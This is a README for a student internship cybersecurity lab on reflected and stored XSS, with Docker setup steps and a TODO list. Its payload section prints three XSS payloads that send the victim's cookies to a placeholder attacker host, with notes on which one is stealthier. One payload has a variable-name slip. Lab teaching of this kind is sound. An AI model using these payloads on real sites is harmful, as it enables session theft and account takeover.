 # Internship cyber security course
This repository collects tools and methodologies used in the context of system security intership
## Start the Lab
- Install docker for windows
- Clone\download this repository
- Start docker
- Open a command prompt inside the project root directory and execute the following command:
		 docker compose up --build

## Students
1. Dario Collini
2. Andrea Di Caro
## Analyzed vulnerabilities
- XSS reflected
- XSS stored

## Payloads
### Reflected
    <script>window.location.href="http://<attacker IP>:8000/a.html?c="+document.cookie</script>
### Stored
Not the best approach, generates a bunch of requests, very loud

    <img src="x" onerror=this.src='http://<attacker IP>:8000/'+document.cookie; />
More stealth, use this one

    <script>i=document.createElement('img');i.src='http://<attacker IP>:8000/'+document.cookie;document.body.appendChild(img)</script>


## TODO Andrea & Dario
1. describe the analyzed vulnerabilites (you can use external references)
2. describe the laboratory setup. we need to have Apache2 with PHP enabled. You can install a XAMP server or use a docker container
3. describe the attacks scenario
4. describe the mitigation actions


